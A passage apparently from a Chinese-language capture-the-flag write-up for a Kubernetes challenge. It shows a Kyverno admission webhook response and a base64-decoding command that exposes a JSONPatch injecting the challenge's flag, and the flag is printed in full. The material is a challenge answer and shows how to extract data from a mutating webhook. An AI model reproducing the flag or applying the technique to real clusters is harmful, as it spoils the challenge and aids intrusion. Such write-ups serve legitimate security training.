"f:labels":{".":{},"f:k8s.kuboard.cn/name":{},"f:pod-template-hash":{}},"f:ownerReferences":{".":{},"k:{\"uid\":\"5dca312e-1f5d-498c-b717-7a57f69707b9\"}":{}}},"f:spec":{"f:containers":{"k:{\"name\":\"test\"}":{".":{},"f:image":{},"f:imagePullPolicy":{},"f:name":{},"f:resources":{},"f:terminationMessagePath":{},"f:terminationMessagePolicy":{}}},"f:dnsPolicy":{},"f:enableServiceLinks":{},"f:restartPolicy":{},"f:schedulerName":{},"f:securityContext":{},"f:terminationGracePeriodSeconds":{}}}}]},"spec":{"volumes":[{"name":"kube-api-access-9n4s2","projected":{"sources":[{"serviceAccountToken":{"expirationSeconds":3607,"path":"token"}},{"configMap":{"name":"kube-root-ca.crt","items":[{"key":"ca.crt","path":"ca.crt"}]}},{"downwardAPI":{"items":[{"path":"namespace","fieldRef":{"apiVersion":"v1","fieldPath":"metadata.namespace"}}]}}],"defaultMode":420}}],"containers":[{"name":"test","image":"busybox","resources":{},"volumeMounts":[{"name":"kube-api-access-9n4s2","readOnly":true,"mountPath":"/var/run/secrets/kubernetes.io/serviceaccount"}],"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"Always"}],"restartPolicy":"Always","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","serviceAccountName":"default","serviceAccount":"default","securityContext":{},"schedulerName":"default-scheduler","tolerations":[{"key":"node.kubernetes.io/not-ready","operator":"Exists","effect":"NoExecute","tolerationSeconds":300},{"key":"node.kubernetes.io/unreachable","operator":"Exists","effect":"NoExecute","tolerationSeconds":300}],"priority":0,"enableServiceLinks":true,"preemptionPolicy":"PreemptLowerPriority"},"status":{}},"oldObject":null,"dryRun":false,"options":{"kind":"CreateOptions","apiVersion":"meta.k8s.io/v1"}},"response":{"uid":"3f33db0e-e2bf-4ccc-812f-b712a66f202d","allowed":true,"patch":"W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d","patchType":"JSONPatch"}}
```

里面的`patch`就是我们要的东西，base64解码一下就行了

```sh
$ echo W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d | base64 -d
[{"op":"add","path":"/spec/containers/0/env","value":[{"name":"FLAG","value":"wiz_k8s_lan_party{you-are-k8s-net-master-with-great-power-to-mutate-your-way-to-victory}"}]}, {"path":"/metadata/annotations","op":"add","value":{"policies.kyverno.io/last-applied-patches":"inject-env-vars.apply-flag-to-env.kyverno.io: added /spec/containers/0/env\n"}}]
```
